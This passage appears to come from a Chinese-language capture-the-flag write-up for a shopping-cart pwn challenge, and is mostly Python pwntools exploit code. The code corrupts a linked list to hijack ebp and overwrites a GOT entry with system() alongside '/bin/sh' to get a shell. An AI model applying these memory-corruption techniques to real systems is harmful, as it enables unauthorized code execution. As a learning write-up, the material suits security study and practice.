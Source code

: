 ```python
def hijack_ebp(io,ori_ebp):
    content = b"1\00"
    got_start = 0x804B032
    content+= p32(got_start)        # name
    content+= p32(0)                # price
    content+= p32(ori_ebp-0xc)      # next
    content+= p32(got_start+0x22)   # prev
    delete(io, content)
```

劫持ebp之后，在main函数里的myread就可以覆写got表了，这里计算好偏移量即可，同时要写`/bin/sh`

```python
def rewrite_got(io,system_addr):
    content = b"/bin/sh\00".ljust(0x40-0x32,b"\x00")
    content+= p32(system_addr)
    io.recvuntil(b"> ")
    io.send(content)
```



脚本如下：

```python
# !/bin/python3
from pwn import *
from z3 import *
import os
import subprocess
context.arch = 'i386'
context.terminal = ["tmux","splitw","-h"]
context.log_level = "debug"

def get_libc_addr(pid):
    cmd = f"cat /proc/{pid}/maps"+" | grep libc | head -1 | awk -F- {'print $1'}"
    addr = int(subprocess.check_output(cmd,shell=True),16) 
    print(hex(addr))
    return addr

def choice(io,ch):
    io.recvuntil(b"> ")
    io.sendline(str(ch).encode())

def add(io,idx):
    choice(io,2)
    io.recvuntil(b"Device Number> ")
    io.sendline(str(idx).encode())

def delete(io,content):
    choice(io,3)
    io.recvuntil(b"Item Number> ")
    io.send(content)
    removed_item = io.recvline()
    return removed_item.strip(b"\n")

def cart(io,content=b"y"):
    choice(io,4)
    io.recvuntil(b"Let me check your cart. ok? (y/n) > ")
    io.send(content)

def get_iphone8(io,sols,cnts):
    for i in range(len(list(cnts))):
        for j in range(sol[cnts[i]].as_long()):
            add(io, i+1)
    choice(io,5)
```